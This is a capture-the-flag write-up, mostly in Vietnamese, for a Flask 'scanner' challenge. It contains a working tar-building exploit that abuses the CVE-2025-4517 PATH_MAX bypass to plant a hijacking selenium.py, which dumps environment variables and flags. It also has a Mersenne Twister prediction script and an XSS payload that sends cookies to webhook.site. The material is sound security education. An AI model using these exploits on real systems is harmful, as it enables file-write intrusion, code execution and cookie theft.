


# Lighter Total (BKISC CTF 2026)

## Description

We built a next-generation scanner that visualizes threats. Upload your suspicious files, and our engine will analyze every pixel and extract the hidden malicious patterns. Are your files clean, or are they hiding something dark deep inside the layers?

## Table of Contents

- [I. Overview](#i-overview)
- [II. Essential Knowledge](#ii-essential-knowledge)
- [III. Source Code Analysis](#iii-source-code-analysis)
- [IV. Vulnerability Analysis](#iv-vulnerability-analysis)
- [V. Exploitation](#v-exploitation)
  - [Solution 1: Intended Way - Module Hijacking (Môi trường gốc)](#cách-1-intended-way---module-hijacking-môi-trường-gốc)
  - [Solution 2: Unintended Way - PRNG Cracking & XSS (Khi đã fix Bot)](#cách-2-unintended-way---prng-cracking--xss-khi-đã-fix-bot)
- [VI. Discussion / Giải thích mở rộng](#vi-discussion--giải-thích-mở-rộng)

---

## I. Overview

Hệ thống là một ứng dụng Flask gồm 2 tính năng chính:

- **Endpoint `/scan`**: Cho phép upload các file (bao gồm cả file nén `.tar`, `.zip`) để hệ thống giải nén và quét mã độc bằng công cụ tự chế **LighterTotal**.
- **Endpoint `/submit-report`**: Cho phép gửi một đoạn text report. Server sẽ lưu thành file HTML và gọi một con Bot (Headless Chromium bằng Selenium) vào đọc file đó.

Mục tiêu của challenge là lấy được FLAG. Tùy thuộc vào việc môi trường Docker có bị lỗi cấu hình hay không, người chơi có thể giải quyết bài toán theo hướng **RCE (Chiếm quyền module)** hoặc **XSS kết hợp dự đoán số ngẫu nhiên**.

## II. Essential Knowledge

Để giải quyết bài này, cần nắm vững 2 kiến thức cốt lõi sau:

1. **Python Module Hijacking**  
   Khi Python thực thi lệnh `import <module>`, nó luôn ưu tiên tìm file `.py` hoặc thư mục trong đường dẫn hiện tại (`sys.path[0]`) trước khi tìm trong thư viện hệ thống. Nếu ghi đè hoặc thả được một file có tên trùng với thư viện (ví dụ `selenium.py`) vào thư mục gốc của app, mã độc trong file đó sẽ được thực thi.

2. **Insecure PRNG (Mersenne Twister)**  
   Hàm `random` mặc định của Python sử dụng thuật toán Mersenne Twister. Thuật toán này không an toàn cho bảo mật. Nếu thu thập đủ 624 số 32-bit được sinh ra liên tiếp, có thể dự đoán chính xác toàn bộ các số ngẫu nhiên trong tương lai.

## III. Source Code Analysis

Thay vì nhìn tổng quan, chúng ta sẽ mổ xẻ trực tiếp những đoạn code chí mạng dẫn đến lỗ hổng của hệ thống.

### 1) `app.py` - Lỗi thiết kế Logic & PRNG

**Đoạn code sinh ID report và ghi file report:**

```python
note_id = str(random.getrandbits(32))
filename = f"report_{note_id}.html"
filepath = os.path.join(REPORT_DIR, filename)

with open(filepath, 'a', encoding='utf-8') as f:
        f.write(cleaned_note)
```

Tác giả sử dụng `random.getrandbits(32)` để tạo ID. Module `random` của Python dùng thuật toán Mersenne Twister, một thuật toán hoàn toàn có thể bị bẻ khóa (crack) nếu thu thập đủ 624 số 32-bit liên tiếp (Trùng hợp là ở đây server trả về một 32-bit value). Điều này cho phép ta đoán trước chính xác tên file report sẽ được sinh ra.

Server ghi file với chế độ `a`-`append` chứ không phải `w`-`override`. Nếu file đã có nội dung sẵn, thì việc tạo file trùng tên sau đó chỉ ghi nội dung vào cuối file mà không ghi đè lên nội dung cũ.

**Đoạn code gọi Bot:**

```python
try:
    subprocess.run(["python3", "bot.py", url], check=True)
except Exception as e:
    return jsonify({"error": "Failed to review", "details": str(e)}), 500
```

Server sinh ra một tiến trình (process) con hoàn toàn mới để chạy file `bot.py`. Việc gọi trực tiếp `python3 bot.py` trong thư mục gốc của app (`/app/`) mở ra cơ hội cực lớn cho kỹ thuật Module Hijacking nếu ta có thể ghi file vào thư mục này.

```python
driver.add_cookie({
                "name": "FLAG",
                "value": os.environ.get("FLAG", None),
                "path": "/",
                "httponly": False,
                "secure": False
            })
```

`HttpOnly` và `secure` false, nếu bot dính XSS thì lấy được flag.

**Đoạn code liệt kê report:**

```python
files.sort(key=lambda x: x["mtime"], reverse=True)
```

Endpoint `/reports` sắp xếp các file dựa trên `mtime` (thời gian chỉnh sửa). Nếu gửi request quá nhanh, nhiều file sẽ có cùng `mtime`, dẫn đến mảng bị xáo trộn thứ tự, gây sai lệch state khi feed cho tool crack PRNG.

### 2) `multi.py` - Điểm yếu của Lighter Total
Đây là file có tác dụng scan, validate, kiểm tra có CLEAN hay MALICIOUS rồi lưu file (hoặc giải nén (extract) tùy đầu vào)

**Đoạn code giải nén file `.tar`:**

```python
def _extract_tar(self, tar_path: str, extract_to: str) -> List[str]:
    ...
    tar.extractall(path=extract_to, filter="data")
```

App sử dụng `filter="data"`, một nỗ lực của Python nhằm chặn Path Traversal. Tuy nhiên, filter này gọi ngầm `os.path.realpath()`. Bằng cách tạo ra một cấu trúc thư mục lồng nhau vượt quá giới hạn độ dài `PATH_MAX` của Linux, hàm kiểm tra sẽ bị sập, cho phép các ký tự `../` lọt qua trót lọt (CVE-2025-4517 / Zip Slip). Đọc thêm ở [đây](https://github.com/google/security-research/security/advisories/GHSA-hgqp-3mmf-7h8f)

**Đoạn code WAF quét mã độc tĩnh trong file được scan:**

```python
signature_patterns = [
    ...
    rb'<\s*script\s*>',
    rb'javascript\s*:',
    ...
]
```

Regex này cực kỳ lỏng lẻo. Nó chỉ chặn đúng thẻ `<script>` trơn. Chỉ cần thêm một thuộc tính bất kỳ (vd: `<script type='text/javascript'>`), payload XSS sẽ nghiễm nhiên vượt qua.

### 3) `bot.py` & `cleanup_daemon.sh` - Môi trường thực thi

**Trong `bot.py`:**

```python
from selenium import webdriver
```

Dòng đầu tiên của Bot là import thư viện `selenium`. Do thư mục chạy lệnh là `/app/`, Python sẽ ưu tiên tìm file `selenium.py` trong `/app/` trước khi tìm trong thư viện chuẩn. Và như mô tả ở trên, việc gọi trực tiếp `python3 bot.py` trong thư mục gốc của app (`/app/`) tạo một process con, và trong process này, `selenium` được import lại (load vào ram) mỗi lần bot chạy. Điều này nghĩa là chỉ cần ghi đè được `selenium.py` vào `/app/` thì server tự động load file lỗi này. 


**Trong `cleanup_daemon.sh`:**

```bash
UPLOAD_DIR="/app/upload"
...
rm -rf $UPLOAD_DIR/*
```

Daemon này chỉ dọn dẹp rác trong thư mục `/app/upload/` mỗi 15 giây. Nếu ta dùng Zip Slip bắn file sang thư mục `/app/` hoặc `/app/report/`, file của ta sẽ tồn tại vĩnh viễn.

## IV. Vulnerability Analysis

1. **XSS**: Filter các từ khóa nguy hiểm cho XSS chưa đủ chặt.
2. **Insecure PRNG**: Sử dụng hàm random để tạo số ngẫu nhiên nhưng ở đây việc trả về số 32-bit mà không giấu đi value tạo điều kiện cho attacker thu thập data để crack dựa trên các tool crack thuật toán có sẵn (cần thiết cho hướng XSS).
3. **Module Hijacking (RCE)**: Sử dụng kĩ thuật `Zip Slip (CVE-2025-4517)` để có được `File Arbitrary Write`, ghi file `selenium.py` giả mạo vào `/app/`. Khi `/submit-report` gọi con bot, bot sẽ thực thi mã độc của ta bằng quyền của tiến trình hệ thống thay vì import thư viện chuẩn.

## V. Exploitation

### Cách 1: Intended Way - Module Hijacking (Môi trường gốc)

Trong môi trường thực tế của tác giả, Dockerfile cấu hình user nonroot bị thiếu thư mục Home, dẫn đến việc Chromium tự động crash ngay khi khởi động. Do đó, hướng tấn công Bot bằng XSS là bất khả thi. Thay vào đó, ta RCE thẳng vào hệ thống.


#### Bước 1: Tạo file nén `poc.tar`

Sử dụng script Python tạo file `.tar` chứa cấu trúc symlink vượt `PATH_MAX` để lùi đường dẫn về thư mục gốc `/app/`. Trong file `.tar` này, ta đóng gói một file mang tên `selenium.py` chứa payload Python. Nội dung của nó khi được chạy là tìm liệt kê các file ở `/`, `/app` và các biến môi trường vào `/app/report/my_flag.html`. NHỚ DÙNG ĐÚNG PHIÊN BẢN PYTHON ĐỂ TẠO:

```python
import tarfile
import os
import io
import sys

comp = 'd' * (55 if sys.platform == 'darwin' else 247)
steps = "abcdefghijklmnop"
path = ""

with tarfile.open("poc.tar", mode="x") as tar:
    for i in steps:
        a = tarfile.TarInfo(os.path.join(path, comp))
        a.type = tarfile.DIRTYPE
        tar.addfile(a)
        b = tarfile.TarInfo(os.path.join(path, i))
        b.type = tarfile.SYMTYPE
        b.linkname = comp
        tar.addfile(b)
        path = os.path.join(path, comp)
        
    linkpath = os.path.join("/".join(steps), "l"*254)
    l = tarfile.TarInfo(linkpath)
    l.type = tarfile.SYMTYPE
    l.linkname = ("../" * len(steps))
    tar.addfile(l)
    
    e = tarfile.TarInfo("escape")
    e.type = tarfile.SYMTYPE
    e.linkname = linkpath + "/../"
    tar.addfile(e)
    
    payload = b"""import os

try:
    html = "<h1>CTF Server Dump</h1>"
    
    html += "<h2>1. Environment Variables:</h2><pre>"
    for k, v in os.environ.items():
        html += f"{k}: {v}\\n"
    html += "</pre>"
    
    html += "<h2>2. Root Directory (/):</h2><pre>"
    try:
        files = os.listdir('/')
        html += "\\n".join(files)
        
        for f in files:
            if 'flag' in f.lower():
                with open('/' + f, 'r') as flag_file:
                    html += f"\\n\\n[+] Flag in /{f}: {flag_file.read()}"
    except Exception as e:
        html += str(e)
    html += "</pre>"
    
    html += "<h2>3. App Directory (/app):</h2><pre>"
    try:
        files = os.listdir('/app')
        html += "\\n".join(files)
        for f in files:
            if 'flag' in f.lower():
                with open('/app/' + f, 'r') as flag_file:
                    html += f"\\n\\n[+] Flag in /app/{f}: {flag_file.read()}"
    except Exception as e:
        html += str(e)
    html += "</pre>"

    with open('/app/report/my_flag.html', 'w') as f:
        f.write(html)
except Exception as e:
    with open('/app/report/my_flag.html', 'w') as f:
        f.write("Error: " + str(e))
"""
    
    n = tarfile.TarInfo("escape/selenium.py")
    n.type = tarfile.REGTYPE
    n.size = len(payload)
    tar.addfile(n, fileobj=io.BytesIO(payload))

print("[+] Đã tạo xong poc.tar")
```

#### Bước 2: Upload File

- **Hành động**: Gửi request upload `poc.tar` vào endpoint `/scan`.
- **Trạng thái Server**: Lighter Total tiếp nhận file, gọi `tar.extractall()`. Đường dẫn độc hại lách qua `data_filter`, âm thầm bung file `selenium.py` vào thư mục `/app/`. Server trả về HTTP `200 OK` (`Status: CLEAN`) do payload Python không vi phạm Regex của WAF.

#### Bước 3: Kích nổ (Trigger Module Hijacking)

- **Hành động**: Gửi một request POST bất kỳ vào `/submit-report`.
- **Trạng thái Server**: Tiến trình cha gọi `subprocess.run(["python3", "bot.py"])`. Tiến trình `bot.py` khởi động, chạy lệnh `from selenium import webdriver`. Do cơ chế ưu tiên của `sys.path`, file `selenium.py` của ta được nạp. Mã độc chạy ngầm, tìm thấy FLAG và ghi ra file `my_flag.html`. Do file `selenium.py` giả mạo không có class `webdriver`, tiến trình Bot bị crash ngay lập tức. Server trả về HTTP `500 Internal Server Error` (đây là dấu hiệu báo payload đã thành công).

#### Bước 4: Lụm cờ

- **Hành động**: Mở trình duyệt truy cập `http://<IP>:5000/report/my_flag.html`.
- **Kết quả**: Server trả về HTTP `200` kèm nội dung FLAG.



> Flag: ***BKISC{A_wEIrD_mACH1nE_s(annER_ff8650df96fd}***

### Cách 2: Unintended Way - PRNG Cracking & XSS (Khi đã fix Bot)

Kịch bản này áp dụng khi mình tự sửa Dockerfile (thêm cờ -m cho useradd hoặc map thư mục tmp cho Chromium) để con Bot sống lại. Lúc này, chuỗi tấn công đi qua một hướng hoàn toàn khác và phức tạp hơn.

#### Bước 1: Thu thập State PRNG

- **Hành động**: Viết script gọi `/submit-report` 624 lần liên tục. Để tránh lỗi xáo trộn thứ tự của endpoint `/reports` (do gửi nhiều file cùng lúc, thứ tự tạo file và response trả về của server có thể khác nhau, dẫn tới thứ tự state sai nên dự đoán sẽ sai), script sẽ bóc tách trực tiếp ID từ JSON response (`report_url`) của mỗi request và mớm ngay cho thư viện `randcrack`.


```python
import requests
import re
from randcrack import RandCrack

URL = "http://localhost:5000"

def crack_prng_v2():
    print("[*] Đang spam 624 reports để thu thập state (Bắt trực tiếp từ response)...")
    rc = RandCrack()
    
    for i in range(624):
        # Gửi rác
        r = requests.post(f"{URL}/submit-report", json={"note": f"CTF_trash_data_{i}"})
        data = r.json()
        
        # Bóc thẳng ID từ cái report_url trả về
        match = re.search(r"report_(\d+)\.html", data.get("report_url", ""))
        if match:
            extracted_id = int(match.group(1))
            rc.submit(extracted_id) # Mớm luôn cho nóng =))
        else:
            print(f"[-] Lỗi cmnr ở request {i}: Không tìm thấy ID! Data: {data}")
            return

        if (i + 1) % 100 == 0:
            print(f"  -> Đã thu thập đúng trình tự {i + 1}/624 IDs...")

    # Crackkkkk
    predicted_id = rc.predict_getrandbits(32)
    print(f"\n[+] BOOM! Trạng thái đã bị crack!")
    print(f"[+] PREDICTED ID (Dành cho file XSS): {predicted_id}")
    print(f"[+] Tên file: report_{predicted_id}.html")

if __name__ == "__main__":
    crack_prng_v2()
```




- **Trạng thái Server**: Trả về liên tục 624 mã HTTP `200` kèm các ID tương ứng.

#### Bước 2: Dự đoán và tạo Payload

- **Hành động**: Dùng `randcrack` dự đoán ID tiếp theo (VD: `123456789`). Chạy script tạo file `poc.tar` chứa lỗi Zip Slip, đích đến là `/app/report/report_123456789.html`.
- **Payload XSS lách WAF**:

```html
<script type='text/javascript'>fetch('https://webhook.site/?c=' + document.cookie)</script>
```

Phần script để tạo `poc.tar` thì chỉ cần thay payload và tên file vào vị trí tương ứng vào script ở trên (intended solution) là được.

#### Bước 3: Upload Payload XSS

- **Hành động**: Upload `poc.tar` vào `/scan`.
- **Trạng thái Server**: Giải nén thành công, ném file HTML đã dự đoán chứa XSS vào đúng thư mục `/app/report/`. Trả về HTTP `200 OK`.

#### Bước 4: Kích hoạt Bot

- **Hành động**: Bắn đúng 1 request POST vào `/submit-report` (lần thứ 625), nội dung bất kì để không bị WAF chặn là được.
- **Trạng thái Server**: Hàm `random` sinh ra chính xác ID `123456789` (chỉ là ví dụ). Server ghép thành URL `http://localhost:5000/report/report_123456789.html` và thêm nội dung ở trên vào cuối file (file đã được tạo từ trước có chứa mã độc). Sau đó gọi Bot vào đọc.

Bot bằng Selenium khởi động, gán Cookie FLAG `HttpOnly: false`, truy cập URL. File HTML chứa mã độc JS chạy thẳng trên trình duyệt của Bot, tuồn Cookie về Webhook.


**Note**: Ở đây thì vẫn có thể dùng cách intended để giải như bình thường nhé =)))

## VI. Discussion / Giải thích mở rộng

### Sự nguy hiểm của hàm random:

Rất nhiều lập trình viên sử dụng random.getrandbits() hoặc random.choice() để sinh token reset mật khẩu hoặc ID bảo mật. Thuật toán Mersenne Twister hoàn toàn mang tính tất định (deterministic). Trong môi trường bảo mật, bắt buộc phải dùng module secrets (CSPRNG).

### Tin tưởng vào `chattr +i`:

`chattr +i` có chức năng gán một attribute `immutable` cho một file/dir. Nghĩa là không thể chỉnh sửa file/dir đó.

Mặc dù `entrypoint.sh` đã dùng `chattr +i` để khóa không cho sửa đổi trực tiếp các file source gốc (như `app.py`, `bot.py`), tác giả lại để lỏng quyền ghi của chính thư mục `/app/`.

```Dockerfile
chmod 755 /app
```
 Điều này chứng minh rằng: không thể ngăn chặn Module Hijacking chỉ bằng cách bảo vệ file gốc, vì attacker sẽ thả thêm file mới vào hệ thống. Việc quản lý chặt `sys.path` và sử dụng đường dẫn tuyệt đối khi import trong môi trường nhạy cảm là bắt buộc.

### Rabbit Hole hay Lỗi Cấu Hình?

Việc bot không chạy ở real instance có lẽ là ý đồ của tác giả. Nhưng do khi giải, mình tưởng misconfig từ author nên tự sửa cho bot chạy. Ai ngờ ra hướng đi khác (mà nó cũng hợp lý cơ =)))))


> Tag: `Zip Slip`, `CVE-2025-4517`, `Path Traversal`, `Arbitrary File Write`, `Python Module Hijacking`, `RCE`, `Insecure PRNG`, `Mersenne Twister`, `XSS`